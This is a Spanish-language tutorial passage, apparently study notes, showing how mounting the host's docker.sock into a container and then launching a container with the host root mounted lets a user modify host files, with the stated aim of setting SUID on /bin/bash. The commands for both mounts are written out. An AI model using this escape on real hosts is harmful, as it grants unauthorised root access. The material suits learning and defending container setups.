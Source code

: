 De esta manera cuando el **Demonio** de **Docker** está activo (el servicio como tal) cuando nosotros efectuamos por ejemplo un ``docker images`` podemos **interactuar**. Si hiciéramos un ``systemctl status docker`` veríamos el estado actual del demonio de Docker, en mi caso **active**.
## Ejemplo de escalada realizando una montura de la raíz de la máquina Host a través de un contenedor

Realizaremos un ``docker pull ubuntu:latest`` y luego ``docker run --rm -dit --name ubuntuServer ubuntu``, ahora solo quedaría meternos en nuestro contenedor con ``docker exec -it ubuntuServer bash``.

Efectuaremos los comandos básicos de siempre una vez estemos dentro del contenedor pero además, instalaremos nuevamente ``docker.io`` para tratar de ver si podemos **listar** las imágenes o contenedores desplegados pero de **la máquina Host** cuando realizamos un ``docker ps`` o un ``docker images``.

- ``apt update``
- ``apt install docker.io``

Si realizamos un ``docker images`` por ejemplo, nos dirá que **no es posible conectarse al demonio de Docker** ya que **no encuentra** el socket en la ruta ``/var/run/docker.sock``. Por lo tanto lo que haremos será desplegar el contenedor pero realizando una **montura** del archivo ``docker.sock`` de **la máquina Host** para que sea esta la que comparta dicho archivo al contenedor y que así puedan funcionar los comandos de Docker dentro.

- ``docker rm $(docker ps -a -q) --force``
- ``docker run --rm -dit -v /var/run/docker.sock:/var/run/docker.sock --name ubuntuServer ubuntu``
- ``docker exec -it ubuntuServer bash``

Luego instalamos todo nuevamente

- ``apt update``
- ``apt install docker.io``

Ahora si intentamos hacer un ``docker ps -a`` o ``docker images`` veremos que podemos utilizarlo pero además veremos las **imágenes** y **contenedores** de **la máquina Host**.

-------

Algo que podemos hacer es en otra consola aparte ingresar nuevamente por **SSH** a **la máquina Host** y ver los permisos del binario ``/bin/bash``, esto a modo de comprobar que **no posee** permisos **SUID** (Ya que nosotros lo que haremos será cambiar a SUID dicho binario).

Nosotros **dentro del contenedor**, como podemos listar las imágenes y contenedores de **la máquina Host** gracias a que se está realizando una montura del archivo ``docker.sock``, lo que podemos hacer es **desplegar** un contenedor con la imagen de **ubuntu** pero **realizando una montura de la raíz**, y esta raíz corresponde específicamente a la de la **máquina Host**, por lo tanto podríamos modificar los permisos del binario ``/bin/bash`` y este se **alteraría** en la máquina host, vulnerando así el sistema realizando la escalada de privilegios correctamente.

Dentro del contenedor desplegaremos otro contenedor llamado ``privesc`` pero **montando** la **raíz de la máquina Host** al directorio ``/mnt/``, para esto haremos lo siguiente:

- ``docker run -dit -v /:/mnt/root --name privesc ubuntu``

Si ahora ingresamos al contendor ``privesc`` con una ``bash``, en la ruta ``/mnt/root`` veremos **la raíz de la máquina Host**, de esta manera podríamos modificar lo que quisieramos, en nuestro caso otorgarle el permiso SUID al binario ``/bin/bash``.
